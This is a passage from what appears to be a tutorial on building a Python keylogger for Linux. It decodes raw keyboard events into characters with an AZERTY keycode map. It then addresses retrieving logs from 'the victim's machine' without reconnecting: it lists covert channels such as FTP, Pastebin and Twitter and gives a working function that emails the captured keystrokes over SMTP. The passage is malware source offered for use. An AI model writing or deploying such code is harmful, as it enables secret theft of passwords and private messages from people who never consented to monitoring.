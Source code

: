 After this, we simply unpack the stream and get it into separate variables. The first two **long** store the date which we will not use in this tutorial. The two **short** are the type and the code used. The **int** at the end is the value that interests us.

We then check that the code is different from "0", which means that there was an event with a type equal to "1", which corresponds to a pressed key.

We will need now to convert the value into a character. To do this we will simply define an "`array`" of all the possible values and the respective character. If you want to get a complete list of value, I recommend you to have a look in this [GitHub](https://github.com/torvalds/linux/blob/master/include/uapi/linux/input-event-codes.h)) repository which gives the following python dictionary slightly adapted for an **azerty** keyboard:

```python
qwerty_map = {
    2: "1", 3: "2", 4: "3", 5: "4", 6: "5", 7: "6", 8: "7", 9: "8", 10: "9",
    11: "0", 12: "-", 13: "=", 14: "[BACKSPACE]", 15: "[TAB]", 16: "a", 17: "z",
    18: "e", 19: "r", 20: "t", 21: "y", 22: "u", 23: "i", 24: "o", 25: "p", 26: "^",
    27: "$", 28: "\n", 29: "[CTRL]", 30: "q", 31: "s", 32: "d", 33: "f", 34: "g",
    35: "h", 36: "j", 37: "k", 38: "l", 39: "m", 40: "ù", 41: "*", 42: "[SHIFT]",
    43: "<", 44: "w", 45: "x", 46: "c", 47: "v", 48: "b", 49: "n", 50: ",",
    51: ";", 52: ":", 53: "!", 54: "[SHIFT]", 55: "FN", 56: "ALT", 57: " ", 58: "[CAPSLOCK]",
}
```

* * *

###### HOW TO RETRIEVE THE DATA?

We now know how to capture and store the data but there is still a problem. The ideal would be not to have to reconnect to the victim's machine to catch the data collected by the **keylogger**.

There are lots of techniques to achieve this! We can, for example, send the data over FTP, SSH, SCP, send it on Pastebin or either on Twitter.

For this tutorial, we will see the mails option, since it's something that Python allows you to do.

```python
def sendEmail(message):
    msg = MIMEMultipart()

    password = PASS
    msg['From'] = EMAIL
    msg['To'] = EMAIL
    msg['Subject'] = "Log clavier"

    msg.attach(MIMEText(message, 'plain'))

    server = smtplib.SMTP(SERVER)

    if USE_TLS is True:
        server.starttls()

    server.login(msg['From'], password)
    server.sendmail(msg['From'], msg['To'], msg.as_string())
    server.quit()
```
